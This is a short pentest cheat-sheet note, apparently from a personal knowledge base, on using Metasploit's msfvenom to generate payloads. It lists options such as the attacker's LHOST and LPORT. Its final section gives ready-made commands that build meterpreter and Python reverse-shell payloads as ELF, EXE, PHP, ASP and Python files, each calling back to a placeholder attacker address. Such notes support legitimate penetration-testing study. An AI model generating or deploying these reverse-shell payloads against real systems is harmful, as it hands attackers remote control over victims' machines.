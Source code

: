 **Type:** #type/tool
**Tags:**  #goal/payload
**Link:** 
**Purpose:** generate all kinds of payloads

---
# Info
part of [[3_Tools/Metasploit framework/msfconsole]] framework
Used to generate payloads and reverse shells for many purposes
# Usage
`msfvenom -p <PAYLOAD> <OPTIONS>`
Important options:
`-f`: output file format
`-o`: output file path
`LHOST=`IP of attacker
`LPORT=`port of attacker

**list things** 
possible payloads:`msfvenom --list payloads`
possible formats:  `--list payloads`

when generating PHP payload: the starting php tag is commented out delete the comment to make the payload valid

info on listener in [[3_Tools/Metasploit framework/msfconsole]]

## useful payload commands
- linux elf: `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- windows exe: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
- unix python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`